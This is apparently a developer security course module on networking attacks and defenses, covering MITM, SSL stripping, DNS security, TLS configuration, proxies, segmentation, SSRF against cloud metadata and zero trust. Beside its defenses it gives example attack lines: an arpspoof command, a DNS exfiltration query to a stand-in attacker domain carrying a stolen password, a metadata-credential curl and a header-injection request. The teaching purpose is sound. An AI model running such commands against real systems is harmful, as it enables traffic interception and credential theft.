




# 🌐 Module 07: Networking Attacks & Defenses

**Difficulty:** 🟡 Intermediate  
**Time:** 60 minutes

---

## What You'll Learn

- Man-in-the-middle (MITM) attacks
- DNS security
- TLS/SSL basics and limitations
- Network segmentation
- Why "internal networks" aren't trusted

---

## Man-in-the-Middle (MITM) Attacks

### How MITM Works



---

### MITM on HTTP

```bash
# Attacker on same network
sudo arpspoof -i eth0 -t <victim-ip> <router-ip>

# All victim traffic routes through attacker
# Attacker uses Wireshark to capture passwords, tokens, etc.
```

**Defense: Use HTTPS everywhere.**

---

### SSL Stripping Attack

**Scenario:** User visits `http://bank.com`

1. Attacker intercepts
2. Attacker connects to `https://bank.com`
3. User sees `http://bank.com` (no encryption!)
4. Attacker sees all traffic in plaintext

**Defense: HSTS (HTTP Strict Transport Security)**

```typescript
res.setHeader('Strict-Transport-Security', 'max-age=31536000; includeSubDomains; preload');
```

---

## DNS Security

### DNS Spoofing

**Attack:** Attacker responds to DNS queries with malicious IPs.

```bash
# Victim queries: bank.com
# Attacker responds: 123.45.67.89 (attacker's server)
# Victim connects to attacker's fake bank site
```

**Defenses:**
- **DNSSEC** (DNS Security Extensions)
- **DNS over HTTPS (DoH)**
- **Certificate pinning** (know server's TLS cert in advance)

---

### DNS Exfiltration

**Attack:** Leak data through DNS queries.

```bash
# Attacker's malware on victim's machine
nslookup stolen-password-abc123.attacker.com

# DNS query logs show the password!
```

**Detection:** Monitor for unusual DNS patterns (long subdomains, high volume).

---

## TLS/SSL Fundamentals

### What TLS Does

1. **Authentication** — Verify you're talking to the real server
2. **Encryption** — Protect data in transit
3. **Integrity** — Detect tampering

---

### TLS Handshake (Simplified)



---

### What TLS Doesn't Protect

❌ **Endpoint security** (if server is hacked, TLS doesn't help)  
❌ **Metadata** (attacker sees domain, IP, timing)  
❌ **Application logic flaws** (SQL injection still works over HTTPS)  
❌ **Credential stuffing** (TLS protects transport, not user behavior)  

---

### TLS Configuration

**Check TLS version:**
```bash
openssl s_client -connect example.com:443 -tls1_2
```

**Bad ciphers to avoid:**
- Anything with `NULL` (no encryption)
- `EXPORT` ciphers (weak, 40-bit keys)
- `MD5` (broken hash)

**Modern config (nginx):**
```nginx
ssl_protocols TLSv1.2 TLSv1.3;
ssl_ciphers 'ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256';
ssl_prefer_server_ciphers on;
```

---

## Reverse Proxies and Load Balancers

### Architecture



---

### Security Considerations

#### 1. Trusted Proxies

```typescript
// Express: trust proxy
app.set('trust proxy', 1);

// Now req.ip shows real client IP (from X-Forwarded-For)
```

**Risk:** If you trust all proxies, attackers can spoof `X-Forwarded-For`.

**Fix: Only trust your own proxy IPs:**
```typescript
app.set('trust proxy', '10.0.0.1');  // Your proxy's IP
```

---

#### 2. Header Injection

**Attacker sends:**
```http
GET / HTTP/1.1
Host: example.com
X-Forwarded-For: 127.0.0.1, evil-header: injected
```

**Defense:** Proxy should sanitize headers.

---

## Network Segmentation

### The Problem with Flat Networks

```
Internet → Firewall → Internal Network
                       ↓
            [Web Server] [Database] [Admin Panel] [Dev Machine]
```

**If web server is compromised, attacker accesses everything.**

---

### Defense: Segmentation



**Rules:**
- Web servers in DMZ (demilitarized zone)
- Database only accessible from web servers
- Admin systems on separate network

---

## Cloud Metadata Services (SSRF Target)

### AWS EC2 Metadata

```bash
# From within EC2 instance:
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Returns temporary AWS credentials!
```

**If your app allows SSRF, attackers can steal these credentials.**

---

### Defense: IMDSv2 (AWS)

```bash
# Requires token (harder to exploit via SSRF)
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
```

**Always use IMDSv2 and block access to 169.254.169.254 in your app.**

---

## Internal Networks Are NOT Trusted

### Common Misconception

> "Our internal services don't need authentication because they're only accessible internally."

**Why this is wrong:**
1. Attackers gain foothold (phishing, vuln in public app)
2. Pivot to internal network
3. Access "internal-only" services with no auth

---

### Defense: Zero Trust

**Assume every network is hostile.**

- **Authenticate** all requests (even internal)
- **Encrypt** internal traffic (mTLS)
- **Log** all access
- **Least privilege** (services can only access what they need)

---

## VPNs and Tunnels

### What VPNs Do

- Create encrypted tunnel over untrusted network
- Make remote machine appear on local network

**Use cases:**
- Remote work (access internal resources)
- Bypass geo-restrictions

**What VPNs DON'T do:**
- Make you anonymous (VPN provider sees traffic)
- Protect against application-level attacks

---

## Summary

1. **MITM attacks** are real — use HTTPS everywhere
2. **DNS is insecure** — use DNSSEC, DoH
3. **TLS protects transport**, not endpoints
4. **Network segmentation** limits lateral movement
5. **Internal networks aren't trusted** — zero trust model
6. **Cloud metadata** is a juicy SSRF target

---

## Exercises

### Exercise 1: Check TLS Configuration
```bash
# Test your site's TLS
openssl s_client -connect example.com:443 -tls1_2

# Or use: https://www.ssllabs.com/ssltest/
```

### Exercise 2: Test for SSRF
In yourapp, try fetching:
```
http://169.254.169.254/latest/meta-data/
```
Does it work? If yes, you have SSRF.

### Exercise 3: Network Map
Draw your application's network architecture:
- What can talk to what?
- Are there unnecessary connections?
- What would happen if X is compromised?

---

## What's Next?

Now let's learn to use Burp Suite for security testing.

→ **Next: [Module 08: Burp Suite for Developers](../08-burp-suite/01-burp-basics.md)**

---

## Further Reading

- [OWASP: Transport Layer Protection](https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html)
- [Mozilla SSL Configuration Generator](https://ssl-config.mozilla.org/)
